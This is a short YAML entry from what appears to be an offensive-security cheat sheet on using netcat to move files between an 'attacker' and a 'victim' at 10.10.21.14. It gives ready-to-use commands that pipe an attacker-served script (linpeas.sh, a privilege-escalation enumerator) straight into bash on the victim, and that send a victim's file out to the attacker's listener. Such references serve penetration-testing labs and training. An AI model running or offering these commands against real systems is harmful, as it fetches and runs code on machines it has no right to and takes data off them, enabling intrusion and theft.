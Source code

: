 ```yaml
---
description: |
  The Netcat (nc) command is a command-line utility for reading and writing data between two computer networks. Which can be used to transfer files between victim and attacker.

  Command Reference:

  	File to copy: linpeas.sh

  	Port: 9001

  	IP address: 10.10.21.14

command: |
  nc -lvnp 9001 < linpeas.sh

code: |
  Copy from attacker to victim:  
  nc -lvnp 9001 < linpeas.sh (attacker) 
    
  nc 10.10.21.14 9001 | bash (victim)

  Copy from victim to attacker: 
  nc 10.10.21.14 9001 < file.txt (victim)
    
  nc -lvnp 9001 > file.txt (attacker)

items:
  - Shell
services:

OS:
  - Windows
  - Linux
attack_types:
  - General
references:
  - https://medium.com/iostrap/how-to-transfer-files-between-servers-using-netcat-d8bc13eebea
  - https://linux.die.net/man/1/nc
---
```

